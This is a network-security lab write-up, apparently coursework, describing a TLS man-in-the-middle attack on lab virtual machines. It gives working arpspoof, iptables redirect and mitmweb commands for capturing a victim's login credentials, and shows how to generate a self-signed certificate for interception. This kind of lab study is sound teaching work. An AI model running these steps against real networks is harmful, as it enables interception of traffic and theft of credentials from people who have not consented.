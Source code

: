 # [NS - Lab3] - TLS mitm proxy <!-- omit in toc -->

- [3. Do-it yourself exercises](#3-do-it-yourself-exercises)
  - [3.1. Challenge 2. Capture user's credentials sent to a web server](#31-challenge-2-capture-users-credentials-sent-to-a-web-server)
  - [3.2. Challenge 2. Make mitmproxy use your own CA cert and private key](#32-challenge-2-make-mitmproxy-use-your-own-ca-cert-and-private-key)

## 3. Do-it yourself exercises
### 3.1. Challenge 2. Capture user's credentials sent to a web server

| ![](img/3.1.png) | 
|:--:| 
| *Image 1* |

For the purpose of this exercice, we created a new VM which will act as the MITM.

There's the victim (IP: `10.0.2.6`), the MITM (IP: `10.0.2.4`)and the webserver (IP: `10.0.2.7`).


In the machine hostname `kali` we run `sudo arpspoff -t 10.0.2.6 10.0.2.7` to let the victim think that we are the the webserver. We need to route this traffic as well, so the victim is accessing the webserver at the end. To do so, we need two commands:
```bash
sudo iptables-legacy -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 9000
sudo iptables-legacy -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 9000
```

Then, let's activate the mitmweb with:
```bash
mitmweb --mode transparent --showhost -p 9000 --ssl-insecure
```
We need the insecure flag to let the mitm binary know that it is okay to connect to an untrusted CA (ours).

The setup is ready to route and intercept the traffic to the webserver from the victim. Let's access the web with the victim, it is shown perfectly and when we enter the login details, the mitm can access those via the web, as shown in the image.

### 3.2. Challenge 2. Make mitmproxy use your own CA cert and private key

| ![](img/3.2.png) | 
|:--:| 
| *Image 2* |

> As I did not keep the previous lab certs, I had to generate new ones. Anyway, those wouldn't have server me for the new MITM machine so let's just create a self-signed certificate.

On the MITM machine, still with the `arpspoof` command running and the routes changed:
```bash
openssl genrsa -out cert.key 2048
openssl req -new -x509 -key cert.key -out cert.crt
cat cert.key cert.crt > cert.pem
mitmweb --mode transparent --showhost -p 9000 --ssl-insecure --certs *=cert.pem
```

Then if you connect to the webserver with the victim's machine, it says `mozilla_pkix_error_self_signed_cert` which is expected, becasue we did self-sign the certificate. We can just install it and see the contents on the firefox.